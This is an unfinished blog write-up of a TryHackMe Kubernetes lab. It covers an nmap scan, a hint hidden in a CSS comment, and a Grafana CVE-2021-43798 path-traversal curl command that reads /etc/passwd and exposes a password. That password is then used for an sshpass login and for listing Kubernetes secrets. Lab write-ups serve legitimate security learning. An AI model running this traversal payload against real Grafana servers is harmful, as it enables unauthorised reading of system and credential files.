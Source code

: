 ```yaml
---
author:
  name: "chxmxii_"
date: 2022-12-11
linktitle: 
tags:
 - devsecops
type:
- post
- posts
title: Kubernetes for everyone
weight: 10
series:
- Hugo 101
---
```

Hola, a friend of mine thought it'd be cool for me to check out this room on the THM platform since they know I'm really into Kubernetes and security. I thought it sounded like a fun idea, so I jumped right in!
![](/files/k8s.png#center)
> Room link: https://tryhackme.com/jr/kubernetesforyouly 
---
Okay, so I kicked things off by giving the IP address a scan, hoping to stumble upon something cool or significant. And you know what? My instincts were right on the money – I actually discovered two apps listening on ports 5000 and 3000!
+ ```bash
  ┌──(kali㉿kali)-[~]
  └─$ nmap -F 10.10.55.59
  Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-16 11:07 EDT
  Nmap scan report for 10.10.55.59
  Host is up (0.16s latency).
  Not shown: 96 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  111/tcp  open  rpcbind
  3000/tcp open  ppp
  5000/tcp open  upnp

  Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
  ```
I excitedly launched my web browser and entered the "<ip>:5000". And guess what? I came across this super fun game called "Etch A Sketch"!

+ ![](/files/sketch.png#center)

However, during my search, I stumbled upon the 'main.css' file. To my surprise, I discovered a Pastebin link within it. Upon opening the link, I was greeted with a base32 encoded string.
But you know what really caught my attention? While I was looking around, I spotted something interesting in the 'main.css' file. It was a Pastebin link! Curiosity piqued, I followed the link and found a base32 encoded string waiting for me. Exciting stuff!
+ ```js
  @import url("https://fonts.googleapis.com/css2?family=Bowlby+One+SC&display=swap");
  /* @import url("https://pastebin.com/cPs69B0y"); */
  @import url("https://fonts.googleapis.com/css2?family=Vollkorn:wght@500&display=swap");
  ```
![](/files/b32.png#center)
After decoding the string, it revealed the word `vagrant`,which led us to discover the user we were searching for.
Curious about the other app running on port 3000, I decided to take a closer look. It turned out to be Grafana, a monitoring tool running version 8.3. After some Googling, I stumbled upon a CVE-2021-43798 that pointed towards a Local File Inclusion (LFI) vulnerability. 
> https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/

+ ```bash
  ┌──(kali㉿kali)-[~]
  └─$ curl --path-as-is 10.10.126.15:3000/public/plugins/alertmanager/../../../../../../../../etc/passwd
  root:x:0:0:root:/root:/bin/ash
  bin:x:1:1:bin:/bin:/sbin/nologin
  daemon:x:2:2:daemon:/sbin:/sbin/nologin
  adm:x:3:4:adm:/var/adm:/sbin/nologin
  lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
  sync:x:5:0:sync:/sbin:/bin/sync
  shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
  halt:x:7:0:halt:/sbin:/sbin/halt
  mail:x:8:12:mail:/var/mail:/sbin/nologin
  news:x:9:13:news:/usr/lib/news:/sbin/nologin
  uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
  operator:x:11:0:operator:/root:/sbin/nologin
  man:x:13:15:man:/usr/man:/sbin/nologin
  postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
  cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
  ftp:x:21:21::/var/lib/ftp:/sbin/nologin
  sshd:x:22:22:sshd:/dev/null:/sbin/nologin
  at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
  squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
  xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
  games:x:35:35:games:/usr/games:/sbin/nologin
  cyrus:x:85:12::/usr/cyrus:/sbin/nologin
  vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
  ntp:x:123:123:NTP:/var/empty:/sbin/nologin
  smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
  guest:x:405:100:guest:/dev/null:/sbin/nologin
  nobody:x:65534:65534:nobody:/:/sbin/nologin
  grafana:x:472:0:hereiamatctf907:/home/grafana:/sbin/nologin
  ```
And voilà! We struck gold and managed to uncover the password. lets do the SSH now!
+ ```bash
  ┌──(kali㉿kali)-[~]
  └─$ sshpass -p hereiamatctf907 ssh -o StrictHostKeyChecking=no vagrant@10.10.126.15
  ```
#### Your Secret Crush
Here's a little nudge in the right direction: "If you want to keep a secret, you must also hide it from yourself." It's like a secret within a secret, right? And hey, remember how Kubernetes lets you stash away secrets? That's a pretty big hint! Now, hop into root mode and give this command a go to see a list of secrets. 🕵️‍♂️
+ ```bash
  vagrant@johnny:~$ sudo ps aux | grep root
  vagrant@johnny:~$ k0s kubectl get secret
  ```  
> The connection to the server 10.0.2.15:6443 was refused - did you specify the right host or port?
> you can fix this by running the following commands
+ ```bash
  sudo -i
  swapoff -a
  ```

[to be continued..]